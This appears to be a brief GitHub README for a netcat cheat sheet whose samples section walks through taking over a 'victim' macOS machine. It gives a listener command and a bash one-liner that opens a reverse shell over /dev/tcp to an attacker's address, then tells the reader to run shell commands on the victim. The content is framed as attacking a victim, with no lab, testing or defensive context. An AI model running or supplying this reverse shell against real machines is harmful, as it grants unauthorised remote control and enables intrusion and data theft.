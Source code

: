 ## How to use netcat

You can find some sheet and samples in the [Readme](https://github.com/doctordeep/netcat_cheat_sheet_v1/tree/master/readme) folder

## Samples

Victim OSx machine:
1. Open a listener on your machine run in shell (linux) **nc -l -p 1337**
2. run **bash -i >& /dev/tcp/listener_ip_address/1337 0>&1** on mac shell victime machine (remember to add the ip address of the listener) 
3. Use shell commands from your listener machine to affect the victim machine
